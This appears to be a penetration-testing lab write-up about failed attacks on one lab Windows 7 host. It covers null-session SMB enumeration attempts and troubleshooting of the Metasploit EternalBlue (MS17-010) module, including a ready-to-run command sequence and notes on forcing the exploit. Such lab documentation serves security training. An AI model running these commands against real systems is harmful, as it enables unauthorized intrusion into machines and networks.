




# Unfruitful attempts — `10.20.160.101` (CALLISTO)

Back to [host plan](README.md) · [Work index](../README.md)

---

## Null SMB / `enum4linux` (no go)

**Context:** After **`nmap`** showed **SMB** and **CrackMapExec** identified **Win7 SP1** with **signing off**, unauthenticated listing of shares/users was attempted.

| Attempt | Outcome |
|---------|---------|
| **`smbclient -L "//10.20.160.101" -N`** | “Anonymous login successful” but **no share list** — **SMB1 disabled — no workgroup available** |
| **`crackmapexec smb 10.20.160.101 --shares -u '' -p ''`** | **`STATUS_ACCESS_DENIED`** |
| **`enum4linux -a`** | **Workgroup JUPITER**, NetBIOS **CALLISTO** OK; then **`NT_STATUS_ACCESS_DENIED`** for domain SID, OS detail, users, share mapping, password policy (**polenum** / **NULL** attach), builtin/local/domain groups, RID cycling, printers |

**Takeaway:** **Null session** enumeration is **locked down** on this image — need **credentials**, **MS17-010** / exploit path with lab approval, or **non-SMB** services (**HTTP** on **80**, **FTP** **21**, **RDP** **3389**, **MySQL** **3306**).

Screenshots: [`101-003_enum4linux_access_denied_tm6_afrocha.png`](Screenshots/101-003_enum4linux_access_denied_tm6_afrocha.png), [`101-004_enum4linux_polenum_null_fail_tm6_afrocha.png`](Screenshots/101-004_enum4linux_polenum_null_fail_tm6_afrocha.png), [`101-005_enum4linux_groups_rid_fail_tm6_afrocha.png`](Screenshots/101-005_enum4linux_groups_rid_fail_tm6_afrocha.png).

### Metasploit `ms17_010_eternalblue` — wrong target / wrong port (operator error)



| Mistake | Why it breaks |
|---------|----------------|
| **`RPORT 80`** | **EternalBlue** is **SMB** — use **`RPORT 445`** (default). **Port 80** is **HTTP**; nothing answers **SMB** there → **`Connection refused`**. |
| **`RHOSTS 10.20.150.101`** | Lab victim is **`10.20.160.101`**. **`10.20.150.*`** is often the **Kali / operator** side of the VPN — verify the **third octet** (**160** vs **150**). |
| **`ForceExploit`** | Only after **`check`** / **`nmap smb-vuln-ms17-010`** show the host is actually vulnerable — do **not** override blindly on a patched VM. |

**Correct shape (lab-authorized only):**

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.20.160.101
set RPORT 445
set LHOST <KALI_LAB_IP>
check
run
```

**Still seeing `10.20.160.101:80` and `SMB Login Error` / `IPC$` on port 80?** You left **`RPORT 80`** set — **`show options`** must show **`RPORT 445`**. Port **80** is not SMB; the module then fails SMB negotiation and may report **`not-vulnerable`** incorrectly. See also [`101-007_msf_eternalblue_rport80_ipc_error_tm6_afrocha.png`](Screenshots/101-007_msf_eternalblue_rport80_ipc_error_tm6_afrocha.png).

### MS17-010 EternalBlue — `check` / `run` **not vulnerable** (correct `RPORT 445`)



| Signal | Meaning |
|--------|---------|
| **`Connected to \\10.20.160.101\IPC$`** | SMB **445** is correct; you are talking to the real stack. |
| **`STATUS_INVALID_HANDLE`** / **Host does NOT appear vulnerable** | Scanner believes **MS17-010 is not exploitable** — most often **KB4013389 / MS17-010 patch** applied, or **fingerprint** does not match a vulnerable build. |
| **`run` → `not-vulnerable: Set ForceExploit to override`** | Module refuses to fire; **`ForceExploit`** may **blue-screen** or fail messily — use **only** if the **course** allows forcing against a **maybe-patched** VM. |

**Next lanes on `.101`:** **Apache/PHP on 80**, **FTP 21**, **RDP 3389**, **MySQL 3306**, **searchsploit** / **nikto** on web, or **SMB with credentials** if you obtain them.

### MS17-010 — `ForceExploit true` (groom runs, **no shell**)

| Screenshot | What it shows |
|------------|----------------|
|  | **`set ForceExploit true`** — scanner still reports **not vulnerable** / **Cannot reliably check**; module still fingerprints **Windows 7 Ultimate 7601 SP1** and begins **Groom Allocations** / **eb_trans2** traffic. |
|  | Full chain visible: **non-paged pool grooming**, **malformed Trans2**, **SMBv2 buffer** / **last fragment** — then **Receiving response from exploit packet** with **no** `[+] Meterpreter session opened`. |

**What this tells us**

| Observation | Interpretation |
|-------------|----------------|
| **`check` stays negative** even with **`ForceExploit`** | The auxiliary still does not believe MS17-010 is present — **forcing does not “un-patch”** the OS. |
| **OS banner matches Win7 SP1** | Recon was right; the blocker is **not** “wrong target,” it is **exploitability** (patch level / SMB stack behavior). |
| **Grooming + Trans2 packets send** | Network path and **445** are fine; the module is **actually running** the exploit logic. |
| **No callback / no session** | Kernel pool corruption did not yield stable execution of the payload — **consistent with a patched MS17-010** (or other hardening), not a **payload port** issue. |

**Conclusion:** Stop iterating **EternalBlue** on **`.101`** unless the instructor provides a **known-vulnerable** snapshot. Move to **HTTP / FTP / RDP / credentialed SMB**.
